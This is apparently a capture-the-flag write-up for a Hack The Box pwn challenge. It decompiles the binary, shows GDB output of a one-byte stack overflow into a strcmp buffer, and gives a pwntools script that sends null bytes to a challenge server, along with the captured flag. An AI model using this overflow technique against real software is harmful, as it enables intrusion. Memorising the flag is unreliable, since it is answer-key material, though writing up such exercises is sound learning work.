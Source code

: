 solved by vulnx https://github.com/VulnX

chall files:
[pwn_writing_on_the_wall.zip](./pwn_writing_on_the_wall.zip)

# Analysis

On reversing with ghidra we get the following source:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_1e [6];
  undefined8 local_18;
  long canary;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = 0x2073736170743377;
  read(0,local_1e,7);
  iVar1 = strcmp(local_1e,(char *)&local_18);
  if (iVar1 == 0) {
    open_door();
  }
  else {
    error("You activated the alarm! Troops are coming your way, RUN!\n");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```c
void open_door(void)

{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("You managed to open the door! Here is the password for the next one: ");
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Our task is simple, get `strcmp(local_1e,(char *)&local_18)` to return 0, then we unlock the door and get the flag. `local_1e` is our input and `local_18` is the buffer ( 'w3tpass ' ).

However its not that simple:

```c
read(0,local_1e,7);
```

It only takes 7 bytes from input and compares it with an 8 byte string ( 'w3tpass ' ), so its practically impossible to get the condition true.

# Vulnerability

However if you set a breakpoint at `main+71` and run the binary with GDB and give it `1234567` as the input, you will get this:

```
0x00005555555555a6 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
*RAX  0x7fffffffdafa ◂— '12345673tpass '
 RBX  0x0
 RCX  0x7ffff7d147e2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x7fffffffdb00 ◂— '73tpass '
 RDI  0x0
 RSI  0x7fffffffdafa ◂— '12345673tpass '
 R8   0x5555555592a0 ◂— 0x555555559
 R9   0x7fffffff
 R10  0x7ffff7fc3908 ◂— 0xd00120000000e
 R11  0x246
 R12  0x7fffffffdc28 —▸ 0x7fffffffdf97 ◂— '/home/vulnx/Games/CTFs/Cyber Apocalypse/pwn/Writing on the Wall/challenge/writing_on_the_wall'
 R13  0x55555555555f (main) ◂— endbr64
 R14  0x555555557d48 (__do_global_dtors_aux_fini_array_entry) —▸ 0x5555555552a0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
 RBP  0x7fffffffdb10 ◂— 0x1
 RSP  0x7fffffffdaf0 —▸ 0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RIP  0x5555555555a6 (main+71) ◂— mov rsi, rdx
─────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────
   0x55555555559e <main+63>    lea    rdx, [rbp - 0x10]
   0x5555555555a2 <main+67>    lea    rax, [rbp - 0x16]
 ► 0x5555555555a6 <main+71>    mov    rsi, rdx
   0x5555555555a9 <main+74>    mov    rdi, rax
   0x5555555555ac <main+77>    call   strcmp@plt                <strcmp@plt>

   0x5555555555b1 <main+82>    test   eax, eax
   0x5555555555b3 <main+84>    jne    main+98                <main+98>

   0x5555555555b5 <main+86>    mov    eax, 0
   0x5555555555ba <main+91>    call   open_door                <open_door>

   0x5555555555bf <main+96>    jmp    main+113                <main+113>

   0x5555555555c1 <main+98>    lea    rax, [rip + 0xb98]
──────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────
00:0000│ rsp         0x7fffffffdaf0 —▸ 0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
01:0008│ rax-2 rsi-2 0x7fffffffdaf8 ◂— 'ST12345673tpass '
02:0010│ rdx         0x7fffffffdb00 ◂— '73tpass '
03:0018│-008         0x7fffffffdb08 ◂— 0xc198f41d898a6100
04:0020│ rbp         0x7fffffffdb10 ◂— 0x1
05:0028│+008         0x7fffffffdb18 —▸ 0x7ffff7c29d90 ◂— mov edi, eax
06:0030│+010         0x7fffffffdb20 —▸ 0x7ffff7e1b803 (_IO_2_1_stdout_+131) ◂— 0xe1ca700000000000
07:0038│+018         0x7fffffffdb28 —▸ 0x55555555555f (main) ◂— endbr64
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
```

We have our input in RDX and the source string in RAX. But look closely, the last byte of our input has overflowed to the first byte of source buffer:

```
'w3tpass ' -> '73tpass '
```

This means that, while we cannot make the two strings equal, we can control what the first byte of source string will be.

# Exploit

How about we set it to NULL? That would terminate the source string at length: 0.

If our input also contains the first byte as NULL, then even our string is terminated at length 0.

TL;DR if give it 7 NULL bytes then:

- first byte of our input: \x00

- first byte of source string: \x00

Hence both strings will become equal and we pass the condition check

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./writing_on_the_wall")

context.binary = exe

context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("83.136.250.103", 52130)

    return r


def main():
    r = conn()

    # good luck pwning :)

    # gdb.attach(r, gdbscript='''
    #            b * main+71
    #            ''')

    r.send(p64(0))
    r.recvuntil(b'{')
    flag = r.recvuntil(b'}')[:-1].decode()
    print(f'FLAG: HTB{{{flag}}}')


if __name__ == "__main__":
    main()
```

```console
python solve.py                                                                                                                                         ─╯
[*] '/home/vulnx/Games/CTFs/Cyber Apocalypse/pwn/Writing on the Wall/challenge/writing_on_the_wall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
[+] Opening connection to 83.136.250.103 on port 52130: Done
FLAG: HTB{3v3ryth1ng_15_r34d4bl3}
[*] Closed connection to 83.136.250.103 port 52130
```

# Flag

`HTB{3v3ryth1ng_15_r34d4bl3}`